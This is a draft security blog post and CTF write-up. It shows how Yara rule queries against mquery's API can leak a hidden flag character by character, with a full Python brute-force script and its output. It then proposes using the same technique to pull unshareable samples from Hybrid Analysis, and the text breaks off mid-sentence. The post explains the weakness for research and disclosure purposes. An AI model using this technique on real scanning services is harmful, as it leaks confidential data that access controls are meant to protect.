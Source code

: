 ```yaml
---
title: Using Yara to Leak Sensitive Data
author: Megabeets
type: post
date: -001-11-30T00:00:00+00:00
draft: true
url: /?p=1700
categories:
  - Uncategorized

---
```

During CONFidence Teaser CTF, one specific task caught my interest. Not because it was hard or complicated &#8211; it wasn&#8217;t, but because the concept behind it was interesting and relevant to my day-to-day work as a malware researcher. 

In this short article, I will show a **highly esoteric**, not to say **trivial**, concept in which you can leak the content of &#8220;sensitive&#8221; files on systems where scanning the files with Yara is allowed, but downloading the files is not possible. Not only that I&#8217;ll show how it was used, as an **intended solution**, to solve the &#8220;Hidden Flag&#8221; challenge on the CTF, but will also demonstrate how it can be used to retrieve the data of TLP;RED, or un-downloadable files on premium services such as Hybrid-Analysis, where the major limitation is the bandwidth.

Let&#8217;s not move too fast and start from the beginning, the CTF challenge. On &#8220;Hidden-Flag&#8221;, the most solved challenge in this CTF, we are given an online instance of [mquery][1], a &#8220;YARA malware query accelerator&#8221;. In other words, the system lets you run your Yara rules on a repository of files, very fast. The flag, as it seems, exists in the content of a file found in the corpus of files that are indexed and scanned by _mquery_. As a malware researcher, and as a [cert.pl][2] old fanboy, I was already familiar with _mquery_ and experienced with using it. 

The initial idea was to extract the flag using boolean queries of Yara rules. To prove that this concept really works, I started from this sample rule:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">rule test {
  strings:
    $flag = "p4{"
  condition:
    $flag
}</pre>

&#8220;p4{&#8221; is the known prefix for flags in this CTF, and indeed, this simple rule showed that the concept is potentially possible and we can now start slowly retrieving the flag. <figure class="wp-block-image size-large">

<img data-attachment-id="1701" data-permalink="https://www.megabeets.net/?attachment_id=1701#main" data-orig-file="http://www.megabeets.net/uploads/mquery-screenshot.png" data-orig-size="911,604" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="mquery-screenshot" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/mquery-screenshot-300x199.png" data-large-file="http://www.megabeets.net/uploads/mquery-screenshot.png" decoding="async" loading="lazy" width="911" height="604" src="https://www.megabeets.net/uploads/mquery-screenshot.png" alt="" class="wp-image-1701" srcset="https://www.megabeets.net/uploads/mquery-screenshot.png 911w, https://www.megabeets.net/uploads/mquery-screenshot-300x199.png 300w, https://www.megabeets.net/uploads/mquery-screenshot-150x99.png 150w, https://www.megabeets.net/uploads/mquery-screenshot-768x509.png 768w, https://www.megabeets.net/uploads/mquery-screenshot-800x530.png 800w" sizes="(max-width: 911px) 100vw, 911px" /> </figure> 

In order to retrieve the rest of the flag, we can slowly &#8220;brute force&#8221; it character by character, hoping there will not be any &#8220;brute force&#8221; mitigation or similar limitation. Since I am familiar with the project, I know it has a REST API we can use for our help. For those of you who weren&#8217;t familiar with _mquery_ before, it can be figured out from the [tests][3].

And indeed, we can quickly write a script to brute force the flag, character by character.

<pre class="EnlighterJSRAW" data-enlighter-language="python" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">import string
import requests

QUERY_URL = "http://hidden.zajebistyc.tf/api/query/high"
MATCHES_URL = "http://hidden.zajebistyc.tf/api/matches/{}?offset=0&limit=50"

def request_query (query):
    res = requests.post(QUERY_URL, json={"method": "query", "raw_yara": query})
    res.raise_for_status()
    query_hash = res.json()["query_hash"]
    res = requests.get(MATCHES_URL.format(query_hash))
    if res.json()["job"]["status"] == "done":
        return res


# Define a rule tempplate

test_yara = """
rule find_flag {{
    strings:
        $flag = "{0}"
    condition:
        $flag
}}
"""

# Generate a list of potential characters
potential_chars = "-_}"+string.ascii_lowercase+string.digits+string.ascii_uppercase+"@!"  

# Start from the known prefix of the flag

flag = "p4{"

while True:
    print("[+] Found:",flag)
    for c in potential_chars:
        res = request_query(test_yara.format(flag + c))
        if len(res.json()["matches"]) > 0:
            flag += c
            break
    if c == "}":
        break

print("[+] Flag:", flag)

# flag is "p4{ind3x1ng-l3ak5}"</pre>

Let&#8217;s run the script and see the results come quickly:

<pre class="EnlighterJSRAW" data-enlighter-language="generic" data-enlighter-theme="" data-enlighter-highlight="" data-enlighter-linenumbers="" data-enlighter-lineoffset="" data-enlighter-title="" data-enlighter-group="">$ python3 solution.py

[+] Found: p4{
[+] Found: p4{i
[+] Found: p4{in
[+] Found: p4{ind
[+] Found: p4{ind3
[+] Found: p4{ind3x
[+] Found: p4{ind3x1
[+] Found: p4{ind3x1n
[+] Found: p4{ind3x1ng
[+] Found: p4{ind3x1ng-
[+] Found: p4{ind3x1ng-l
[+] Found: p4{ind3x1ng-l3
[+] Found: p4{ind3x1ng-l3a
[+] Found: p4{ind3x1ng-l3ak
[+] Found: p4{ind3x1ng-l3ak5
[+] Flag: p4{ind3x1ng-l3ak5}
</pre>

### Real-life implications

While this CTF challenge wasn&#8217;t the hardest, to say the least, it indeed shows an interesting concept. For a desperate and motivated-enough person, it is possible to leak some data that wasn&#8217;t meant to be shared with them. But to make this happen, it requires a very niche set-up in which file storage can be scanned with Yara (or any other scanning engine) but some or all the files cannot be downloaded. Esoteric as it sounds, it can happen. The fact is, that this is the exact situation that Cert Polska is dealing with and on which the aforementioned challenge is based. Having a TLP;RED samples in their repository prevents the Polish Cert to publicly open their own _mquery_ instance to the public or other organizations. Having access to such Yara scanning engine on a repository with unshareable samples is a risk they refuse to take. `mquery` is not the only platform to let you scan files using Yara, there are more &#8211; some of them are even commercial.

### Hybrid Analysis

CrowdStrike&#8217;s Hybrid-Analysis is a free automated malware analysis service. Its main feature is a very popular sandbox that is commonly used by the community. Community members upload samples to the platform, and the samples being analyzed in the sandbox. The user are choosing whether they wan to share the binary sample with the community or not. If they choose not to, the analysis of the file is still available to the community, so is the meta-data of the file. The sample itself, of course, is marked as unshareable and cannot be accessed by the community. Finding such &#8220;not-for-share&#8221; files is very easy because Hybrid Analysis highlights these files and marks them visibly.

One of the less-familiar features of Hybrid Analysis is their super-fast Yara scanner. It lets the users the ability to &#8220;Hunt samples matching YARA rules at the byte level.&#8221;. Essentially, users can create their Yara rule and scan it on the entire sample repository of one of the most popular malware analysis services out there. You see where I&#8217;m going at, right? If some samples are not shared publicly, but we do have their metadata, including their hash and some strings from them, we can easily start leaking the entire binary, or parts of it as we wish. Adding that to the fact that Hybrid Analysis&#8217; Yara scanner is very fast, we can run a Yara query 



<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: https://github.com/CERT-Polska/mquery
 [2]: https://www.cert.pl/en/
 [3]: https://github.com/CERT-Polska/mquery/blob/master/src/tests/test_api.py